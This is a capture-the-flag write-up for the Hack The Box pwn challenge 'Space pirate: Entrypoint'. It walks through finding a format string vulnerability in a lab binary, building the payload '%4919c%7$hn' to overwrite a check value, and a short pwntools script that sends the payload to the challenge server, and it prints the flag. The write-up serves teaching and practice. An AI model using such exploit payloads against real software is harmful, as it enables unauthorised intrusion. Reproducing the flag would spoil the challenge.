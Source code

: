# Space pirate: Entrypoint
> Write-up author: jon-brandy
## DESCRIPTION:
D12 is one of Golden Fang's missile launcher spaceships. 
Our mission as space pirates is to highjack D12, get inside the control panel room, and access the missile launcher system. 
To achieve our goal, we split the mission into three parts. In this part, all we need to do is bypass the scanning system and open the gates so that we proceed further.
## HINT:
- NONE
## STEPS:
1. First, unzip the `.zip` file given, then jump to the extracted directory.

> INSIDE

![image](https://user-images.githubusercontent.com/70703371/209463673-48df0692-e65e-4194-9ae2-be80e6856bad.png)


2. Check the file type.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209463681-989c4cff-3dce-494f-8d61-6c1af86af3b0.png)


3. Check the binary's protection.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209463703-79b1a4cc-5ea0-4fc3-843a-43fa24c83d93.png)


4. All protection's enabled.
5. Hmmm.. Let's run the file in gdb.

![image](https://user-images.githubusercontent.com/70703371/209463724-cccbe67c-76a5-4079-a654-ab8fbd6c2f50.png)


![image](https://user-images.githubusercontent.com/70703371/209463733-669e653f-1a16-486d-aea7-6c75b5fda4d0.png)


![image](https://user-images.githubusercontent.com/70703371/209463740-66d11232-6398-4630-97fb-694386ace618.png)


6. Let's decompile the binary using ghidra.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209463764-7578b83f-2012-4a18-a860-9cd436c81d04.png)


7. It looks like we can utilize format string vulnerability here.

![image](https://user-images.githubusercontent.com/70703371/209463825-73020a6a-1121-4f06-b952-89b128fd1c18.png)


8. If the `local_48` value is eq to **0xdead1337**, then the program will execute the `open_door()` function.

![image](https://user-images.githubusercontent.com/70703371/209464871-10f1ddb4-a41c-4c9e-a2fb-739ecd578909.png)


> OPEN_DOOR -> a function that will give us the flag

![image](https://user-images.githubusercontent.com/70703371/209464882-b49cc0c9-9fe2-4d8d-bc05-2990568f0c99.png)


9. However, the `local_48` value is **0xdeadbeef** not **0xdead1337**.
10. Remember that the `local_40` saves the address of `local_48`.

![image](https://user-images.githubusercontent.com/70703371/209464944-a52ddd88-f28b-4a61-9b7e-44168631a5b6.png)


11. Hence, we can utilize format string vuln to overwrite the first 2 bytes of `local_48` value.
12. Now run, the binary, choose option 1, then input 8 %p.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209465122-13eeff3b-e788-42f4-b77f-918d3e41b354.png)


13. Based from the output, we know that **0xdeadbeef** is at offset 6 and **0xdead1337** is at offset 7. 
14. Get the decimals value of **0x1337** -> `4919`.
15. Means the input shall look like this -> `%4919c%7$hn`.
16. To make it clear:

```
"%" indicates the start of a format specifier in a format string.
"4919" is a numerical value that specifies the minimum width of the field. It indicates that the output should be padded with spaces or zeroes to make it at least 4919 characters wide.
"c" is a conversion specifier that indicates the value to be printed as a character.
"%7$" is a positional specifier that specifies the argument index to be printed. In this case, it refers to the seventh argument.
"hn" is a length modifier that specifies that the argument should be interpreted as a short integer and printed as a halfword (2 bytes) in a specific format.
```

17. To get the flag, actually u don't need to make the script, but i just want to make it 😁

> THE SCRIPT

```py
from pwn import *
import os

os.system('clear')
context.log_level = 'debug'
sh = remote('142.93.37.215', 30803)
sh.recvuntil("> ")
sh.sendline(b'1')
sh.recvuntil(": ")
A = b'%4919c%7$hn'
sh.sendline(A)
sh.interactive()
```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/209465379-85f5adb9-1aa3-4ccd-9e8d-1163907fe90f.png)


18. Got the flag!

## FLAG

```
HTB{g4t3_0n3_d4rkn3e55_th3_w0rld_0f_p1r4t35}
```


